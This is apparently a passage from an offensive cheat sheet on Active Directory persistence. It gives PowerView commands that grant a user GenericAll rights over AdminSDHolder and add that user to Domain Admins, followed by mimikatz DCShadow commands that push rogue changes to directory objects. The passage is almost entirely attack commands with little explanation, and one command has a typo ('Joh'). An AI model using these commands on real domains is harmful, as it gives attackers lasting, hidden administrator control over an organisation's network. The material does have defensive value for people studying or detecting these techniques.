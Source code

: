 ### AdminSDHolder Persistent
```
The User John has granted GenericAll Privilege.

Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName Joh -Verbose -Rights All

#The Following could be verify whether The unprivilege user John has GenericAll rights on the AdminSDHolder.

Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'John'}

net group "domain admins" John /add /domain
```

###  DCShadow Persistent
DCShadow is a persistence technique which is  allowing an attacker to push malicious changes into the environment by modifying active directory objects.domain privileges is requiredto carry out this attack
```
lsadump::dcshadow /object:John-PC$ /attribute:badpwdcount /value=7777
lsadump::dcshadow /push

```
